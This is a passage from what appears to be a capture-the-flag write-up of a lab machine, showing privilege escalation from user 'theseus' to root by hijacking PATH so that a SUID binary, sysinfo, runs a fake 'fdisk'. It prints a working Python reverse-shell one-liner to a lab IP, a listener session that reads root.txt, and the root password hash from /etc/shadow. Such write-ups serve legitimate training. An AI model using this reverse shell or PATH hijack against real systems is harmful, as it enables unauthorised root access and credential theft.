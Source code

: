 ```
/bin/ping
```

`/bin/sysinfo` looks unusual:

```
theseus@ubuntu:~$ ls -lh /bin/sysinfo
-rwsr-x--- 1 root users 22K Oct 21  2019 /bin/sysinfo
```

## Privilege Escalation : theseus to root

If we run `sysinfo` there are 4 sections that seems to match so other system
commands:

- Hardware Info: `lshw -short`
- Disk Info: `fdisk -l`
- CPU Info: `cat /proc/cpuinfo`
- MEM Usage: `free -h`

So basically what we have to do is change the `PATH` env var to force the SUID
`sysinfo` to call an attacker controlled binary instead of the system tools.

```
$ mkdir /tmp/noraj
$ cd /tmp/noraj
$ touch fdisk
$ vi fdisk
$ chmod +x fdisk
$ export PATH=/tmp/noraj:$PATH
$ echo $PATH
/tmp/noraj:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
$ which fdisk
/tmp/noraj/fdisk
```

Here is the reverse shell I put in `fdisk`:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.32",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

The we just have to run `sysinfo` to get the root shell:

```
$ pwncat -l 8888 -v
# pwd
/tmp/noraj
# cd /root
# cat root.txt
8b6a4fda49b7bcfe0ed6b1925d45bd96
# cat /etc/shadow | grep root
root:$6$P9JXkqrh$tQfL.bHaQQmi7tBxwKp2wdSTB0D19Q.PHM.8tdLanqBEs70cKzul4SEY0PqfbxVkUv7bR5wrKYXJlb0p69c42.:18184:0:99999:7:::
```
